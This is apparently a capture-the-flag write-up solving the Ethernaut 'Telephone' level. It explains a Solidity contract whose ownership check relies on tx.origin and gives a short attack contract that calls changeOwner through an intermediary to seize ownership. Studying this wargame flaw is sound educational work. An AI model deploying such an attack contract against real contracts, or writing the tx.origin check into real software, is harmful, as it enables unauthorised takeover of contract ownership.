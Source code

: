 # Task

Claim ownership of the contract below to complete this level.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
What does this contract do??

1. The `owner` variable stores the address of the current owner, initially set to the address that deployed the contract (msg.sender in the constructor).

2. The `changeOwner` function can be called by anyone, but the ownership will only be transferred if `tx.origin` (the original external account initiating the transaction) is different from `msg.sender` (the immediate caller of the function).

Now, this restriction prevents a direct call from changing ownership because I tried to change  ownership directly using cast but then it didn't work; it requires a contract or intermediary to call the function on behalf of the original sender. 

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/c1fe8f04-847f-4879-8277-ad1196e20e8d)

First, lets check the owner of this contract

![image](https://github.com/user-attachments/assets/bf95721a-fc87-400a-9d1a-ed3cce80fe07)

That's the current owner of the contract

Below is the solve contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./telephone.sol";

contract TelephoneHack {
    Telephone telecontract;

    constructor(address _address) {
        telecontract = Telephone(_address);
    }

    function hackContract(address _address) public{ 
        telecontract.changeOwner(_address);
    }
    
}
```
This attack contract exploits the Telephone contract's ownership change condition. It calls `changeOwner` through a contract (instead of directly), which tricks the `Telephone contract` into satisfying the `tx.origin != msg.sender` check, allowing ownership to be transferred to the specified address.

Lets deploy this using forge

![image](https://github.com/user-attachments/assets/1a28c0f3-036d-4412-ae4d-fcb43f5121ba)

Since ownership can be transferred if `tx.origin != msg.sender` we can call the `hackContract` function and pass in our address


![image](https://github.com/user-attachments/assets/94f13cec-4814-49dd-a905-0cf83deb3009)

Checking the owner of the contract again

![image](https://github.com/user-attachments/assets/f7be04f3-be92-4371-b83a-bcde020e9291)

We already became the owner of the contract

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/e95c2118-0567-4d69-aa7e-c5175c2a553c)

We have successfully completed this level

-------------------------

Till Next Time :xD






































